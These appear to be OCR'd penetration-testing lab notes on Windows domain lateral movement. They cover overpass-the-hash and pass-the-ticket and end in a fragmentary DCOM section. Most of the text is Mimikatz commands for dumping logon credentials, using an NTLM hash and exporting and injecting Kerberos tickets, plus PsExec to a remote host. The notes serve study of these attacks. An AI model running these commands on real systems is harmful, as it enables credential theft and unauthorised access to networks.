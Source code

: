 #### Overpass the Path

The essence of the overpass the hash lateral movement technique is to turn the NTLM hash into a Kerberos ticket and avoid the use of NTLM authentication. A simple way to do this is with the sekurlsa::pth command from Mimikatz.

If you run any process as another domain user on a machine you have compromised, their ntlm hash and kerberos ticket will be cached on the computer, where you can run MimiKatz to pass the hash.

```bash
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell 
```

At this point, running the whoami command on the newly created PowerShell session would show jeff's identity instead of jen. While this could be confusing, this is the intended behavior of the whoami utility which only checks the current process's token and does not inspect any imported Kerberos tickets

```bash
PS C:\Windows\system32> klist
PS C:\Windows\system32> net use \\files04 # We used net use arbitrarily in this example, but we could have used any command that requires domain permissions and would subsequently create a TGS.
PS C:\Windows\system32> klist # You will now have tgt and tgs
```

We have now converted our NTLM hash into a Kerberos TGT, allowing us to use any tools that rely on Kerberos authentication (as opposed to NTLM). 

```bash
PS C:\tools\SysinternalsSuite> .\PsExec.exe \\files04 cmd
```

#### Pass the Ticket

The Pass the Ticket attack takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service. In addition, if the service tickets belong to the current user, then no administrative privileges are required.

```bash
PS C:\Windows\system32> ls \\web04\backup
ls : Access to the path '\\web04\backup' is denied.
mimikatz #privilege::debug
mimikatz #sekurlsa::tickets /export
PS C:\Tools> dir *.kirbi
# As many tickets have been generated, we can just pick any TGS ticket in the dave@cifs-web04.kirbi format and inject it through mimikatz via the kerberos::ptt command.
mimikatz # kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
PS C:\Tools> klist # Since no errors, we should expect a ticket
PS C:\Tools> ls \\web04\backup # the dave ticket has been successfully imported in our own session for the jen user
```

#### DCOM


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname